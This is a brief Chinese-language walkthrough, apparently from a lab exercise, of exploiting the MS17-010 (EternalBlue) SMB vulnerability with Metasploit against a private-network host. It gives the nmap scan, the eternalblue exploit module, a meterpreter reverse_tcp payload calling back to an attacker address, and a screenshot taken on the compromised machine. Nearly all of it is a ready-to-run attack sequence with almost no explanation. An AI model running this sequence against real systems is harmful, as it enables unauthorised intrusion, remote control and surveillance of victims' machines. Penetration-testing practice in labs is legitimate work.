 # ms17_010
---

SMB协议使用TCP139端口和TCP445端口。

扫描目标主机nmap -sS -A 192.168.17.149
-sS（使用SYN扫描）,-A(启用操作系统检测和版本检测)。

msfconsole

search ms17_010 

use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_tcp。

show options 

set LHOST 192.168.17.148，set RHOSTS 192.168.17.149

exploit

执行help即可查看我们能够执行哪些操作

meterpreter > screenshot 对被攻击对象进行了屏幕截图测试。

